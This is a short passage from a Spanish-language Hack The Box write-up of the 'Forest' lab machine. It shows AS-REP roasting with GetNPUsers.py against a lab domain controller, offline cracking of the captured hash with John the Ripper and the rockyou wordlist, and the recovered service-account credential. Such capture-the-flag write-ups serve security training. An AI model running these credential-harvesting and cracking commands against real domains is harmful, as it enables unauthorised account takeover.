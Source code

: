 Para realizar este ataque usaremos la herramienta GETNPUsers.py, en esta ocasion usaremos esta herramienta para ver quien fue el ultimo usuario que se logueo y vemos que svc-alfresco no requiere preautenticacion en kerberos por eso podemos ver su hash

```bash
GetNPUsers.py -dc-ip 10.129.95.210 -request 'htb.local/'
```

![Untitled](/assets/images/2022-02-11-writeup-maquina-htb-forest/Untitled%201.png)

tambien podemos usar nuestra lista de usuarios para ver si alguien otro usuario con la caracteristica anteriormente mencionada

```bash
GetNPUsers.py -dc-ip 10.129.95.210 'htb.local/' -no-pass -usersfile users.txt -format john
```

![Untitled](/assets/images/2022-02-11-writeup-maquina-htb-forest/Untitled%202.png)

crackeamos dicho hash

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Untitled](/assets/images/2022-02-11-writeup-maquina-htb-forest/Untitled%203.png)

credenciales

```bash
svc-alfresco:s3rvice
```
